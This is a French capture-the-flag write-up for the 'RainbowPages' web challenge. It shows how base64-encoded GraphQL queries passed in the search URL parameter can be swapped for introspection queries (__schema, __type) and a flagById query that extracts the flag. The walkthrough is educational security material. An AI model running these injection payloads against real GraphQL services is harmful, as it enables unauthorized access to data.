






# <center>RainbowPages</center>

<center>


</center>

On arrive sur cette page



Voyons voir le code source, ça pourrait un peu nous éclairer

```javascript
    <script>
		function makeSearch(searchInput) {
			if(searchInput.length == 0) {
				alert("You must provide at least one character!");
				return false;
			}

			var searchValue = btoa('{ allCooks (filter: { firstname: {like: "%'+searchInput+'%"}}) { nodes { firstname, lastname, speciality, price }}}');
			var bodyForm = new FormData();
			bodyForm.append("search", searchValue);

			fetch("index.php?search="+searchValue, {
				method: "GET"
			}).then(function(response) {
				response.json().then(function(data) {
					data = eval(data);
					data = data['data']['allCooks']['nodes'];
					$("#results thead").show()
					var table = $("#results tbody");
					table.html("")
					$("#empty").hide();
					data.forEach(function(item, index, array){
						table.append("<tr class='table-dark'><td>"+item['firstname']+" "+ item['lastname']+"</td><td>"+item['speciality']+"</td><td>"+(item['price']/100)+"</td></tr>");
					});
					$("#count").html(data.length)
					$("#count").show()
				});
			});
		}
		
		$("#clear-btn").click(function() {
			$("#search").val("");
			$("#results tbody").html("");
			$("#results thead").hide();
			$("#count").hide()
			$("#empty").show();
		})

		$("#search-btn").click(function() {
			var content = $('#search').val();
			makeSearch(content);
		})
	</script>
```

Vu la tête de la requête on peut se dire qu'il s'agit en réalité de GraphQL et que donc le challenge ici va consister en une GraphQL injection.

L'endpoint est situé à /index.php?search= comme on peut le voir dans le script ci-dessus.
<br>
Maintenant essayons de rentrer quelque chose dans la barre de recherche du site.
<br>


On peut voir que la requête est bien faite à /index.php?search= et que le paramètre mis à search est une chaîne en base64, déchiffrons là.

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/Web/Rainbow Pages/1$ echo eyBhbGxDb29rcyAoZmlsdGVyOiB7IGZpcnN0bmFtZToge2xpa2U6ICIlZXhlbXBsZSUifX0pIHsgbm9kZXMgeyBmaXJzdG5hbWUsIGxhc3RuYW1lLCBzcGVjaWFsaXR5LCBwcmljZSB9fX0= | base64 -d
    { allCooks (filter: { firstname: {like: "%exemple%"}}) { nodes { firstname, lastname, speciality, price }}}

Nous avons donc notre requête qui est directement envoyée à partir de l'url, pour exploiter cette vulnerabilité nous avons juste à remplacer la requête initiale par une autre préalablement choisie.
<br>
Essayons d'afficher tous les champs à l'aide de la requête 

    {  
     __schema {
        types {
        name
        }
     }
    }

Il faut donc maintenant la mettre en base 64, ce qui nous donne la requête finale ```/index.php?search=ewogIF9fc2NoZW1hIHsKICAgIHR5cGVzIHsKICAgICAgbmFtZQogICAgfQogIH0KfQo=```



On voit alors tous les champs GraphQL.
<br>
Mais cela ne nous intéresse pas vraiment ici, essayons plutôt de lister les Queries avec la requête

    {
     __schema {
        queryType {
        fields {
            name
            description
        }
        }
     }
    }

soit ```/index.php?search=ewogIF9fc2NoZW1hIHsKICAgIHF1ZXJ5VHlwZSB7CiAgICAgIGZpZWxkcyB7CiAgICAgICAgbmFtZQogICAgICAgIGRlc2NyaXB0aW9uCiAgICAgIH0KICAgIH0KICB9Cn0K```

Ce qui nous donne



En essayant d'afficher le contenu des différents champs avec la payload

    {
    __type(name: "Champ") {
        name
        fields {
        name
        type {
            name
            kind
        }
        }
    }
    }

On ne trouve pas grand chose d'intéressant.
Alors des champs devraient plus nous attirer que d'autres, ceux contenant le mot 'flag'. 
<br>Alors après s'être un peu renseigné sur la syntaxe GraphQL on apprend que l'on peut rajouter des paramètres aux requêtes envoyées, alors on test plusieurs requêtes sur les champs 'flag', 'allFlags' et 'flagById'.
<br>En se penchant sur le 'flagById' on arrive à avoir quelque chose de concluant en mettant l'id à 1 et en affichant 'flag', comme ceci : 

    { 
    flagById(id: 1) {
        flag 
    }
    }

soit ```/index.php?search=IHsgCiAgICBmbGFnQnlJZChpZDogMSkgewogICAgICAgIGZsYWcgCiAgICB9CiB9Cg==```

La page nous renvoit 



:)
